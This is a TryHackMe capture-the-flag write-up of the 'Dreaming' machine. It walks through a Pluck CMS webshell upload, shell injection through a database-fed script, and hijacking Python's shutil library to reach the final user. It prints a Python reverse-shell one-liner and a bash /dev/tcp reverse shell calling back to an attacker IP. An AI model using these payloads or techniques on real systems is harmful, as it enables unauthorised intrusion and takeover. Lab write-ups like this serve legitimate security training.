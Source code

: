 ```yaml
---
title: Dreaming (THM)
description: Write-up of Dreaming Machine 
date: 2023-11-27 09:00:00 -3000
categories: [tryhackme]
tags: [tryhackme, thm, writeup, easy, machine, linux, code-injection, path-manipulation]
author: trace
---
```

## Reconnaissance

we start with the nmap scan and see the following ports which are open

![[nmapscan.png]](https://i.imgur.com/CpHTNiT.png)

nothing too interesting for now so we run directory bruteforce in order to find something

![[gobuster.png]](https://i.imgur.com/oaDZmeC.png)

and as you can see we do get to see something interesting here `/app` seems kinda interesting to me so we visit that web directory

and it's the pluck cms version 4.7.13

![[pluck.png]](https://i.imgur.com/LpbN4Mp.png)

further we see it asks for the password and upon trying some default creds `password` was the right password so we get a login successful on this

from here on i further start to enumerate this cms and looking for the exploit for this specific version and exploitDB fortunately has one 

![[exploit.png]](https://i.imgur.com/pg1ayL3.png)

so we prepare the payload and run the exploit on this vulnerable cms
and it successfully upload the webshell, 

![[uploadedwebshell.png]](https://i.imgur.com/vu2YwiC.png)

## Foothold (User1)

So upon visiting that webshell we get a revshell to our machine of that webshell and get the `www-user`

![[Screenshot_2023-11-24_15-12-51.png]](https://i.imgur.com/DivQXpN.png)

and now we look for low hanging fruits and potential to get a user so we could get our first flag
and after quite a while of doing some manual enumeration, we find lucien password found **/opt/test.py** 
and can login into SSH with it and get our first flag

![[lucianuser.png]](https://i.imgur.com/h8BTpHk.png)


## Foothold (User2)

from the past enumeration i saw one more script in the `/opt` directory which was owned user `death`.
and lucian can execute  `getDreams.py`  as death user without a password, but we cannot read it.

![[privescloop1.png]](https://i.imgur.com/BjX0bQ3.png)

so now comes the code reviewing part lol which was super easy here we see a mysql connection, but the credentials are redacted

````python
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
````

So it goes like: 
1. **MySQL Credentials:** The code defines three variables, `DB_USER`, `DB_PASS`, and `DB_NAME`, to store the MySQL credentials. These credentials are used to connect to the MySQL database.
    
2. `getDreams()` Function: The `getDreams()` function is the main part of the code. It handles the process of connecting to the MySQL database, fetching data from the `dreams` table, and echoing the dreamer and dream information to the console.
    
    a. **Connecting to MySQL:** The `try-except-finally` block is used to handle any errors that might occur during the database connection or query execution. The `connect()` method of the `mysql.connector` library is used to establish a connection to the MySQL database using the provided credentials.
    
    b. **Executing SQL Query:** A cursor object is created using the `connection.cursor()` method. This cursor object is used to execute SQL queries against the database. The `query` variable contains the SQL query to fetch the `dreamer` and `dream` columns from the `dreams` table. The `cursor.execute(query)` method is used to execute the query.
    
    c. **Fetching Dreamer and Dream Information:** The `cursor.fetchall()` method is used to fetch all the rows from the result set of the executed query. Each row contains a tuple of the `dreamer` and `dream` values.
    
    d. **Echoing Dreamer and Dream Information:** If there are no dreams found in the database, an error message is printed. Otherwise, the code loops through the fetched dream information and constructs a command using the `subprocess` library. The command is used to echo the dreamer and dream information to the console.
    
    e. **Closing Cursor and Connection:** Finally, the cursor and connection objects are closed using the `cursor.close()` and `connection.close()` methods, respectively. This ensures that the connection resources are properly released.
    
3. **Calling `getDreams()` Function:** The `getDreams()` function is called at the end of the code to execute the process of fetching and echoing dream information.
   
so we can clearly see command execution happening here

````python
command = f"echo {dreamer} + {dream}"
````

the variables `dreamer` and `dream` come from the mysql connection, so we need to connect to it someway.
now we do more enumeration and finally i see the .bash_history was getting refferred to `/dev/null` so we can read the .bash_histroy
and you can clearly see that is here where the information from getDreams are being retrieved.

![[lucianpass.png]](https://i.imgur.com/fsPFgth.png)

since lucien can insert into table “dreams”, we can insert a payload to get us a reverse shell.

so we create a bash script file that returns a python reverse shell to be executed 
````python
export RHOST="10.9.142.204";export RPORT=7777;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
````

so now what we do is inset into `dreams` table the python payload we have created  

![[valuesinserted.png]](https://i.imgur.com/I8BSWuI.png)

and execute `getDreams.py` as death user to get a reverseshell as `death` user.

````bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
````

and We get the `death` user

![[Screenshot_2023-11-24_16-39-48.png]](https://i.imgur.com/mHoEh4E.png)

now enuemating `morpheus` user's directory we see quite a few interesting things

![[morpheushome.png]](https://i.imgur.com/Burg34H.png)

## Root (User3)

so once i cat that script we can see it is import shutil from somewhere

````bash
death@dreaming:/home/morpheus$ cat restore.py 
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
````

so now we try to grep the `shutil` and we find it here `/usr/lib/python3.8/shutil.py `
reviewing the code and checking for perms we can see it is ran as morpheus user which is our last and final user(root). and we have edit permissions to it

so we put our reverse shell in the `shutil.py`

```python
echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/10.9.142.204/7777 0>&1'\")" > /usr/lib/python3.8/shutil.py
````

And we get the shell after few seconds

![[root.png]](https://i.imgur.com/4hkOVm1.png)

![[rootflag.png]](https://i.imgur.com/hNzfGe3.png)
